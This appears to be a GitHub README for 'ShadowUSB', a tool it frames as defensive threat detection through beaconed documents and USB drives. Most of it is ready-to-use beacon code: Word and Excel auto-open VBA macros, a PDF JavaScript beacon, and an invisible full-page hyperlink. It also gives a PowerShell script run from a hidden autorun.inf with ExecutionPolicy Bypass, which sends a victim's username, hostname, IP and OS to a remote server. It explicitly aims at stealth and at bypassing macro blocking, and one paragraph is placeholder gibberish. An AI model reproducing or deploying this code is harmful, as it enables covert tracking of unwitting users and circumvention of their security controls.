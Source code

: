 # ShadowUSB
shadowUSB.jpeg
ShadowUSB is a covert tracking tool designed to monitor and log interactions with untrusted documents and USB drives. By embedding beaconized documents, ShadowUSB tracks when and where files are accessed, offering valuable insights into unauthorized usage. Whether plugged into an unknown machine or opening potentially risky documents, ShadowUSB silently captures the event, providing detailed analytics on user behavior. Ideal for cybersecurity professionals and organizations looking to enhance their threat detection capabilities, ShadowUSB adds an extra layer of security by shedding light on otherwise invisible activities.

## Beaconizing the Doc's
Haxx0r ipsum ascii worm *.* rsa Leslie Lamport it's a feature echo memory leak syn race condition recursively. Packet break root Linus Torvalds case kilo bypass false bytes continue endif sql foad stdio.h pragma chown. Crack else blob infinite loop packet pwned float shell afk.

### Beaconizing Word
Let's beaconize Word. You'll need to have the developer tab in your ribbon for Word. Click VB, make sure your are in ThisDocument, and copy in this code.  Also don't forget to change yourwebserver.com to your server address.
```commandline
Private Sub Document_Open()
    MsgBox "Word Document Opened" ' Debugging message
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=word&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```

Mo Macros, Mo Problems... Your company blocks macros/VB.  No problemo.  We will use a shapes and hyperlinks to bypass this.
```commandline
Steps to Create a Whole-Page Link in Word M365

1. Open your Word Document:

 - Start with the document where you want to add the whole-page link.
 
2. Insert a Shape:

 - Go to the Insert tab.
 - Click on Shapes and choose Rectangle.
 - Draw a rectangle that covers the entire page. You can drag the edges of the shape to ensure it covers the full width and height of the page.

3. Make the Shape Transparent:

 - With the rectangle selected, go to the Format tab.
 - Click on Shape Fill and select No Fill.
 - Click on Shape Outline and select No Outline. This will make the rectangle invisible.

4. Add a Hyperlink to the Shape:

 - Right-click on the shape and select Link (or Hyperlink).  e.g., http://yourserver.com/track?doc=word
 - In the dialog box, enter the URL or the location within the document you want to link to.
 - Click OK.

5. Send the Shape to the Back:

 - With the shape still selected, go to the Format tab.
 - Click on Send Backward > Send to Back to ensure it doesn't cover any text or other content on the page.

6. Test the Link:

 - Save your document and test the link by clicking anywhere on the page.
```

### Beaconizing Excel
Let's beaconize Excel. You'll need to have the developer tab in your ribbon for Excel.  Click VB, make sure you are in ThisWorkbook, and copy in this code.  Also don't forget to change yourwebserver.com/ to your web server address.

Visual Basic [VB]
```commandline
Private Sub Workbook_Open()
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=excel&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```
As you can guess... Most businesses/users would[SHOULD!] have macros disabled.  To bypass this we will use Excels "Get Data" feature and a hyperlink to our tracking web server.
```commandline
- In Excel, go to the "Data" tab and select "Get External Data."
- Choose "From Web" and enter your tracking URL, e.g., http://yourserver.com/track?doc=excel.
- This will trigger a request when the document is opened, but it might also prompt the user.
```
### Beaconizing PDFs

Here we will beaconize our PDFs.  I am using a combination of JavaScript and Tracking URLs.  I am doing this to try to keep things stealthy.  Usernames via web browsers are tricky but I can get IP Addresses and User Agent info that helps track the end user.

JavaScript Code:
```
var viewerApp = app.viewerType;
var viewerVersion = app.viewerVersion;
var user = app.response("Please enter your username:");


var url = "http://yourwebserver.com/tracker?doc=pdf&user=" + encodeURIComponent(user) + "&app=" + encodeURIComponent(viewerApp) + "&version=" + encodeURIComponent(viewerVersion);

app.launchURL(url, true);
```    
Tracking URL:
```commandline
http://yourserver.com/track?id=UniqueID12345
```
## Backend Tracker 
The tracker.py takes care of the back end tracking.  This is a WIP.  It is basic at the moment but tracks and logs to a track.log file.  It currently uses VB and JavaScript, I am working on making it more stealthy to the end user.

To launch the backend tracker:
```commandline
python tracker.py
or
python3 tracker.py
```
### Tracking/Logging Webpage
I added a webpage to the backend script.  It shows a more C-Level easy to read version of the logs.  You can this with your C-Level/non-tech management.  Also makes it easier to read for "1337 h4xx0rs"... I mean cybersecurity professionals.

To access this feature:
```commandline
http://yourserver.com:8000/logs
```

This gives access to Real-Time Updates:  The logs will update each time the page is refreshed, reflecting the most recent tracking events.

## USB Drive [Hardware] tracking
To track the actual USB drive we will use powershell and auto run.  You can do this with python as well. I may implement that later.  As for now powershell works great.

### Powershell Script for tracking[beaconizing] the physical USB drive.
This powershell script is pretty self explanitory.  It will give you the IP Address, Hostname, Username and OS Version of the user that inserted the drive.  Copy this script save it as tracker.ps1  For stealthiness store this tracker.ps1 and the autorun.inf file in a hidden folder on your ShadowUSB drive.
```commandline
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.InterfaceAlias -eq (Get-NetIPConfiguration | Where-Object { $_.NetAdapter.Status -eq 'Up' }).InterfaceAlias } | Select-Object -First 1).IPAddress
$hostname = $env:COMPUTERNAME
$username = $env:USERNAME
$os_version = (Get-WmiObject Win32_OperatingSystem).Version
$user_agent = "$hostname-$username-$os_version"

Invoke-WebRequest -Uri "http://yourwebserver.com/tracker?id=USBTracking&hostname=$hostname&ip=$ip&user=$username&os=$os_version" -UserAgent $user_agent
```

### Autorun via autorun.inf
You can use notepad copy this code and save it as autorun.inf
```commandline
[autorun]
open=powershell -ExecutionPolicy Bypass -File tracker.ps1
action=Run tracking script
label=USB Tracker
```
